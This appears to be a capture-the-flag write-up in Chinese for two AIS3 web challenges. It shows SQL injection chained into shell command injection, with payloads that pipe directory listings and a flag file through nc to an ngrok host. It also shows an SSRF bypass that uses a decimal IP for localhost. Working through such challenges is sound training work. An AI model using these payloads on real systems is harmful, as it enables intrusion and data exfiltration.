 Config.php

``` php
<?php
define("SQLITE_DB_PATH", "challenges.db");
define("I_AM_NOT_FLAG", base64_decode(str_rot13("nUE0pUZ6Yl95o3I0qF5vMF8jAmW0IGS0LJ1xZN==")));
```

http://quiz.ais3.org:8001/challenges.db 可以下載 db

思路大概是用 SQLi 從 id 構造，可以透過前面 db 輔助我們構造 union 比如下方，可以延遲 100 秒確定

```
SELECT name, host, port FROM challenges WHERE id = 0/**/union/**/SELECT/**/1,"quiz.ais3.org'$(sleep%09100)'",8001;
```

傳入的方法如下，傳進去構造成上方的樣子

```
http://quiz.ais3.org:8001/?module=modules/api&id=注入點
http://quiz.ais3.org:8001/?module=modules/api&id=0/**/union/**/SELECT/**/1,"quiz.ais3.org'$(sleep%09100)'",8001;
```

確定可行之後依序透過以下 payload 洩露資訊

```
0/**/union/**/SELECT/**/1,"quiz.ais3.org'$(ls|nc%098.tcp.ngrok.io%0918403)'",8001;
0/**/union/**/SELECT/**/1,"quiz.ais3.org'$(ls%09-al%09/|nc%098.tcp.ngrok.io%0918403)'",8001;
0/**/union/**/SELECT/**/1,"quiz.ais3.org'$(cat%09/flag_81c015863174cd0c14034cc60767c7f5|nc%098.tcp.ngrok.io%0918403)'",8001;
```

flag

``` 
AIS3{o1d_skew1_w3b_tr1cks_co11ect10n_:D}
```

## HaaS (solved)

一開始看到 Method Not Allowed 先嘗試找出可用的 Method

```bash
curl 'http://quiz.ais3.org:7122/haas' -X OPTIONS -i
```

當中可以看到用 POST，不過用 POST 會產生 Only absolute URLs are supported。

之後找到網址 http://quiz.ais3.org:7122/ 可以發現 haas 可以看到這個 restful api 的用法，並且可以輸入任意網址或許可以構造 SSRF，當中 127.0.0.1 / localhost 受到阻擋， http://2130706433 同等 127.0.0.1，嘗試過後只能回傳狀態，之後檢查 request 可以發現有 status 這個參數，並且檢查 status 是否和要求的網頁相同，設定成 status=500 使不同，就可以顯示網頁內容。

``` bash
curl http://quiz.ais3.org:7122/haas -X POST --data "url=http://2130706433&status=500"
```

```
AIS3{V3rY_v3rY_V3ry_345Y_55rF}
```
